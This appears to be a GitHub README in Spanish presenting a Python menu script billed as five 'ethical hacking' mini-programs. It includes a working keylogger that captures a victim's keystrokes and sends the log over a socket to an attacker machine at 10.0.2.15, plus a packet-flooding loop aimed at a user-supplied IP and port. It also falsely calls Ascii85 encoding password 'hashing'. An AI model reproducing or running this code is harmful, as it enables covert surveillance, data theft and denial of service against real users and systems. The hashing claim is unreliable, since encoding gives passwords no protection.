 # Script-Hacking-Automatizado-con-Python
Os traigo un script de python que incluye 5 mini programas dentro de el script para que el usuario eliga uno de ellos y pueda llevar a cabo sus pruebas.

Os he dejado el fichero.py adjunto a este repositorio pero os dejo el codigo aqui por si hay algun problema:























import socket
import keyboard
import webbrowser
import time
import base64
from colorama import Fore
import inspect

#Este programa consiste en ofrecer una eleccion al usuario
#para que eliga entre 5 programas para hacking.
#Cada programa esta dentro de una funcion
#Primer programa: Un keylogger
#Segundo programa: Un DDoS atack
#Tercer programa: Noticias de ciberseguridad
#Cuarto programa: Analisis de malware
#Quinto programa: Hashear una contraseña

print("")

#PRIMER PROGRAMA
def keylogger():
    try:
        print("")
        print("")
        #Importamos librerias

        #Para las conexiones
        #import socket
        #Para la entrada de teclado
        #import keyboard

        #Almacenamos las palabras en una variable
        palabra = ""

        #Contamos las palabras ingresadas
        contador_palabras = 0

        #Bucle infinito para recibir las palabras
        while True:
            #Para empezar el evento de teclados
            evento_de_teclado = keyboard.read_event()
            #Si se pulsa una tecla
            if evento_de_teclado.event_type==keyboard.KEY_DOWN:
                #Si es la tecla espacio
                if evento_de_teclado.name=="space":
                    with open("keylogger_output.txt","a") as file:
                        file.write(palabra + " ")
                        print("Nueva palabra ingresada por la victima:")
                        print(palabra)
                        contador_palabras = contador_palabras + 1
                        print("Numero de palabras ingresadas:")
                        print(contador_palabras)
                    palabra = ""  # Reiniciar palabra
                #Si son el escape o un numero
                #para salir del bucle y del programa
                elif evento_de_teclado.name == "esc":
                    print("El usuario ha pulsado el escape")
                    break
                elif evento_de_teclado.name.isnumeric():
                    print("El usuario ha pulsado un numero")
                    break
                else:
                    palabra += evento_de_teclado.name

        try:
            #Con el archivo y una conexion socket
            with open("keylogger_output.txt","rb") as file, socket.socket(socket.AF_INET,socket.SOCK_STREAM) as mi_socket:
                mi_socket.connect(("10.0.2.15",443))
                #Enviamos el fichero a nuestra maquina atacante
                mi_socket.sendall(file.read())
        except Exception as e:
            #Para manejar si hay algun error
            print("Error en el programa keylogger")
            print(e)
    
    except Exception as e:
        print("Parece que el Keylogger no se ha podido ejecutar, deja que te muestre al menos su codigo: ")
        print("")
        codigo_keylogger = inspect.getsource(keylogger)
        print(codigo_keylogger)
        

    #Cerramos la conexion
    mi_socket.close()

#SEGUNDO PROGRAMA
def DDoS():
    print("")
    #Libreria de conexion
    #import socket as SOCKET

    #Servidor
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    #Parametros
    ip = input("Dime la ip victima: ")
    port = int(input("Dime el puerto: "))
    bytess = 1000 * "x"

    try:
        while True:
            server.sendto(bytess.encode(), (ip, port))
            print(f"Enviando paquetes a {ip}:{port}")
    except KeyboardInterrupt:
        print("Ataque detenido por el usuario.")
    except Exception as e:
        print("Error en el programa DDoS")
        print(e)
    finally:
        server.close()

#TERCER PROGRAMA
def web_ciberseguridad():
    #import webbrowser
    #import time
    #Los print
    print("")
    print("")
    print("Vamos a ver las noticias de ciberseguridad")
    print("")

    #Url a la web
    url = "https://thehackernews.com/"

    for i in range(5, 0, -1):
        print(f"Abriendo TheHackerNews.com en {i}...")
        time.sleep(1)

    print("")
    print("GOOOO!!!")

    #Abrimos la pagina web
    webbrowser.open(url=url)


#CUARTO PROGRAMA
def Analisis_de_malware():
    #import webbrowser
    #import time
    #Los print
    print("")
    print("")
    print("Vamos a hacer un analisis de malware a esta maquina")
    print("")

    #Url a la web
    url2 = "https://www.abuseipdb.com/"

    for i in range(5, 0, -1):
        print(f"Abriendo abuseipdb.com en {i}...")
        time.sleep(1)

    print("")
    print("GOOOO!!!")

    #Abrimos la pagina web
    webbrowser.open(url=url2)

#QUINTO PROGRAMA
def hashear_contraseña():
    #import base64

    #Pedir contraseña al usuario
    contraseña = input("Dime una contraseña para haseharla: ")
    print("")

    #Hashearla con un algoritmo
    hashear_contraseña = base64.a85encode(contraseña.encode()).decode()

    #Imprimirla
    print("Tu contraseña hasheada es:")

    print("")

    print(hashear_contraseña)

print("")
print("")
print("Programa hecho por Alejandro Doral")
print("")
time.sleep(2)
print("Bienvenido a este programa con mini programas de hacking etico y ciberseguridad automatizados")
print("")
time.sleep(3)
print("Estas son las opciones que tienes a elegir: ")
print("")
time.sleep(3)
print(Fore.GREEN + "1. Programa Keylogger")
print("")
time.sleep(1.5)
print(Fore.RED + "2. DDoS ataque")
print("")
time.sleep(1.5)
print(Fore.BLUE + "3. Noticias de Ciberseguridad")
print("")
time.sleep(1.5)
print(Fore.YELLOW + "4. Analisis de malware")
print("")
time.sleep(1.5)
print(Fore.MAGENTA + "5. Hashear una contraseña")
print(Fore.WHITE + "")
time.sleep(3)
print("Elige un programa")
print("")
eleccion_usuario = int(input("Programa a elegir --->"))
time.sleep(2)
print("")

if eleccion_usuario == 1:
    print(Fore.GREEN + "Has elegido el programa 1: Keylogger")
    time.sleep(2)
    keylogger()
elif eleccion_usuario == 2:
    print(Fore.RED + "Has elegido el programa 2: Ataque DDoS")
    time.sleep(2)
    DDoS()
elif eleccion_usuario == 3:
    print(Fore.BLUE + "Has elegido el programa 3: Noticias de Ciberseguridad")
    time.sleep(2)
    web_ciberseguridad()
elif eleccion_usuario == 4:
    print(Fore.YELLOW + "Has elegido el programa 4: Analisis de malware")
    time.sleep(2)
    Analisis_de_malware()
elif eleccion_usuario == 5:
    print(Fore.MAGENTA + "Has elegido el programa 5: Hashear una contraseña")
    print("")
    time.sleep(2)
    hashear_contraseña()
else:
    print("Esa no es una opcion valida")

print("")
print("")
print("")
print("Gracias por usar el programa de Doral")
print("")
print("")
